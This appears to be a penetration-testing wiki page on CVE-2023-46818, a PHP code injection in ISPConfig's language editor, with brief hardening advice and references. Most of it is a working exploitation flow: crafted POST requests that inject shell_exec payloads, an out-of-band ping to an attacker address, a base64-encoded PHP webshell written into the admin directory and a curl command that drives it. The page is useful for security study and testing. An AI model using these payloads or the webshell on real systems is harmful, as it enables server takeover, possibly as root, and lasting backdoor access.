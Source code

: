 # ISPConfig

## Overview

ISPConfig is an open-source hosting control panel. Older 3.2.x builds shipped a language file editor feature that, when enabled for the super administrator, allowed arbitrary PHP code injection via a malformed translation record. This can yield RCE in the web server context and, depending on how PHP is executed, privilege escalation.

Key default paths:
- Web root often at `/var/www/ispconfig` when served with `php -S` or via Apache/nginx.
- Admin UI reachable on the HTTP(S) vhost (sometimes bound to localhost only; use SSH port-forward if needed).

Tip: If the panel is bound locally (e.g. `127.0.0.1:8080`), forward it:

```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```

## Language editor PHP code injection (CVE-2023-46818)

- Affected: ISPConfig up to 3.2.11 (fixed in 3.2.11p1)
- Preconditions:
  - Login as the built-in superadmin account `admin` (other roles are not affected according to the vendor)
  - Language editor must be enabled: `admin_allow_langedit=yes` in `/usr/local/ispconfig/security/security_settings.ini`
- Impact: Authenticated admin can inject arbitrary PHP that is written into a language file and executed by the application, achieving RCE in the web context

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### Manual exploitation flow

1) Open/create a language file to obtain CSRF tokens

Send a first POST to initialize the form and parse the CSRF fields from the HTML response (`csrf_id`, `csrf_key`). Example request path: `/admin/language_edit.php`.

2) Inject PHP via records[] and save

Submit a second POST including the CSRF fields and a malicious translation record. Minimal command-execution probes:

```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```

Out-of-band test (observe ICMP):

```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```

3) Write files and drop a webshell

Use `file_put_contents` to create a file under a web-reachable path (e.g., `admin/`):

```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```

Then write a simple webshell using base64 to avoid bad characters in the POST body:

```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```

Use it:

```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```

If PHP is executed as root (e.g., via `php -S 127.0.0.1:8080` started by root), this yields immediate root RCE. Otherwise, you gain code execution as the web server user.

### Python PoC

A ready-to-use exploit automates token handling and payload delivery:
- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

Example run:

```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```

### Hardening

- Upgrade to 3.2.11p1 or later
- Disable the language editor unless strictly needed:

```
admin_allow_langedit=no
```

- Avoid running the panel as root; configure PHP-FPM or the web server to drop privileges
- Enforce strong authentication for the built-in `admin` account

## References

- [ISPConfig 3.2.11p1 Released (fixes language editor code injection)](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/)
- [CVE-2023-46818 – NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- [bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)
- [HTB Nocturnal: Root via ISPConfig language editor RCE](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)

